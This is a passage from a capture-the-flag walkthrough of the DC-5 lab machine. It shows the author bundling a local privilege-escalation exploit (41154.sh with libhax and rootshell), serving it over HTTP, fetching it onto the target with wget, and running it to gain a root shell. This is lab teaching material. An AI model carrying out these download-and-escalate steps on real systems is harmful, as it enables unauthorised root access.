 Now we have total 5 files. For simplicity I compress them to tranfer to server.
```bash
$ls
41154.sh  libhax.c  libhax.so  rootshell  rootshell.c
$tar -zcvf exploit.tar.gz *
41154.sh
libhax.c
libhax.so
rootshell
rootshell.c
```
Tranfer `exploit.tar.gz` to server and decompress the files.
```
$python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.6 - - [31/Aug/2020 14:13:17] "GET /exploit.tar.gz HTTP/1.1" 200 -
```

```
www-data@dc-5:/tmp$ wget http://192.168.1.2:8000/exploit.tar.gz
converted 'http://192.168.1.2:8000/exploit.tar.gz' (ANSI_X3.4-1968) -> 'http://192.168.1.2:8000/exploit.tar.gz' (UTF-8)
--2020-08-31 18:43:15--  http://192.168.1.2:8000/exploit.tar.gz
Connecting to 192.168.1.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4430 (4.3K) [application/gzip]
Saving to: 'exploit.tar.gz'

exploit.tar.gz      100%[=====================>]   4.33K  --.-KB/s   in 0s     

2020-08-31 18:43:15 (474 MB/s) - 'exploit.tar.gz' saved [4430/4430]
www-data@dc-5:/tmp$ ls
exploit.tar.gz
www-data@dc-5:/tmp$ tar -zxvf exploit.tar.gz 
41154.sh
libhax.c
libhax.so
rootshell
rootshell.c
www-data@dc-5:/tmp$ ls
41154.sh  exploit.tar.gz  libhax.c  libhax.so  rootshell  rootshell.c
```

At last grant permission and execute the exploit.
```
www-data@dc-5:/tmp$ chmod +x 41154.sh 
www-data@dc-5:/tmp$ ./41154.sh 
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
